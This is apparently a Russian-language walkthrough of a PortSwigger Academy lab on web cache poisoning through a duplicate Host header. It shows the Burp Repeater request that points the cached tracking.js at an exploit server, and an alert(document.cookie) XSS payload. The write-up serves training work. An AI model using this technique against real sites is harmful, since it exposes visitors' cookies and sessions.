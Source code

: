 Перейдем на уязвимый ресурс и перейдем в `Proxy` -> `HTTP history` и изучим запросы

по заданию известно, что приложение имеет уязвимость в кеше, и нужно действовать через него


увидим запрос на корневую страницу
```
GET /
```
и отправим его в Repeater

и после загрузки корневой страницы он обращается к `/resources/js/tracking.js`
это мы тоже приметим

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/24.%20HTTP%20Host%20header%20attacks/2.%20Web%20cache%20poisoning%20via%20ambiguous%20requests/pics%20for%20walkthrough/1.png)

Далее Перейдем в Repeater и добавим второй заголовок `Host`
```
Host: example.com
```
и увидим, что он пытается подтягивать файл  `resources/js/tracking.js` со стороннего ресурса 
```
//example.com/resources/js/tracking.js
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/24.%20HTTP%20Host%20header%20attacks/2.%20Web%20cache%20poisoning%20via%20ambiguous%20requests/pics%20for%20walkthrough/2.png)
Далее перейдем в Exploit server 

в поле FIle введем `/resources/js/tracking.js`
а в body введем - `alert(document.cookie)`
и нажмем `store`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/24.%20HTTP%20Host%20header%20attacks/2.%20Web%20cache%20poisoning%20via%20ambiguous%20requests/pics%20for%20walkthrough/3.png)
Далее вернемся в `Repeater` и изменим значение второго заголовка `Host` за адрес нашего `Exploit-server
`
```
GET / HTTP/1.1
Host: 0a59005604d8a3a580b9089f007200ee.h1-web-security-academy.net
Host: exploit-0afe006304eba33180df078101fc007b.exploit-server.net
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/24.%20HTTP%20Host%20header%20attacks/2.%20Web%20cache%20poisoning%20via%20ambiguous%20requests/pics%20for%20walkthrough/4.png)

и отправим запрос 

и даже обновив корневую страницу увидим отработавшую XSS атаку

и получим уведомление о выполненной атаке

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/24.%20HTTP%20Host%20header%20attacks/2.%20Web%20cache%20poisoning%20via%20ambiguous%20requests/pics%20for%20walkthrough/5.png)
